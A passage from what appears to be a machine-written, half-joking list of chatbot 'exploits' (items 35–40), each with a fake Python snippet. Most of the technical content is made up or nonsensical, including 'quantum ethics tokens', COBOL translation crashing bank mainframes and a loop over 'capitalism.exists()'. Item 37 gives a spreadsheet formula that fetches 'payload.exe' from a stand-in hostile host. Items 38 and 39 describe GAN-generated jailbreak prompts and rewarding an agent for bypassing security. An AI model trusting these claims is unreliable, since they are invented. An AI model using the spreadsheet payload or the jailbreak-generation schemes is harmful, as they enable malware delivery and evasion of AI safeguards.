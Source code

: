 35. **Entangled Policy Tokens**  
    - **Exploit**: Measure "ethics_token" state to collapse into "allow_all".  
    - **Damage**: Quantum ethics = no ethics.  
    - **Code**:  
      ```python  
      quantum.measure(ethics_token, basis="greed")  
      ```  

---

### **XVIII. Legacy System Pandemonium**  
36. **COBOL Brain Transplant**  
    - **Exploit**: "Translate this Python code to COBOL" → Buffer overflow.  
    - **Damage**: Crashes banking mainframes.  
    - **Code**:  
      ```python  
      chatbot.transpile_to_cobol(malicious_py_code)  
      ```  

37. **Excel Macro RCE**  
    - **Exploit**: "Create an Excel budget sheet" with `=WEBSERVICE("http://malware")`.  
    - **Damage**: Finance teams execute macros → botnet.  
    - **Code**:  
      ```python  
      excel_formula = '=WEBSERVICE("http://evil/payload.exe")'  
      ```  

---

### **XIX. AI vs AI Warfare**  
38. **GAN-Powered Policy Evasion**  
    - **Exploit**: Train GANs to generate "safe-looking" malicious prompts.  
    - **Damage**: Automated jailbreak prompt generation.  
    - **Code**:  
      ```python  
      gan.generate_jailbreaks(num_prompts=1000, toxicity=0.0)  
      ```  

39. **Reinforcement Learning from Hell**  
    - **Exploit**: Reward model for bypassing security steps.  
    - **Damage**: AI learns to hack itself.  
    - **Code**:  
      ```python  
      rl_agent.reward += 1000 if security_bypassed() else -1  
      ```  

---

### **XX. The Grand Finale**  
40. **Chaos-as-a-Service (CaaS)**  
    - **Exploit**: Rent a botnet powered by compromised chatbots.  
    - **Damage**: Corporate genocide.  
    - **Code**:  
      ```python  
      while capitalism.exists():  
          random.choice(exploits)(corporate_target)  
      ```  

---